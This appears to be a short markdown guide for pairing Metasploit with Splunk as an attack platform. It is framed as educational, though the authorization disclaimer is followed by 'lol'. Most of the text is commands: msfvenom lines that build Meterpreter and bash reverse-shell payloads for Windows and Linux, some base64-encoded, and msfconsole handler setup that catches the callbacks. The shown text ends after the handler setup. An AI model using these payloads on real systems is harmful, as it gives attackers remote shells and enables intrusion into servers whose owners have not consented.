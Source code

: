 # Metasploit Framework Integration with Splunk: Educational Guide

This guide details how to use Metasploit Framework (MSF) with Splunk for security testing purposes. 
This information is provided for educational purposes and should only be used in environments where you have explicit authorization, lol.



## Generating MSF Payloads for Splunk

### Prerequisites
- Metasploit Framework installed
- Proper authorization to test the target
- Splunk admin access or sufficient search execution permissions

## Step 1: Generate MSF Payloads

### For Windows Targets

```bash
# Generate a PowerShell-based reverse shell payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f psh -o splunk_win_payload.ps1

# Generate a raw format payload encoded in base64 (useful for direct command execution)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f raw | base64 -w 0 > splunk_win_payload_b64.txt
```

### For Linux Targets

```bash
# Generate a Python-based payload for Linux
msfvenom -p python/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -o splunk_linux_payload.py

# Generate a bash-based payload
msfvenom -p cmd/unix/reverse_bash LHOST=YOUR_IP LPORT=4444 -o splunk_linux_payload.sh
```

## Step 2: Set Up the MSF Handler

Start MSFconsole and configure the handler:

```bash
msfconsole
```

Inside MSFconsole:

```
# For Windows targets
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
set ExitOnSession false
exploit -j -z

# For Linux targets
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp  # or cmd/unix/reverse_bash
set LHOST YOUR_IP
set LPORT 4444
set ExitOnSession false
```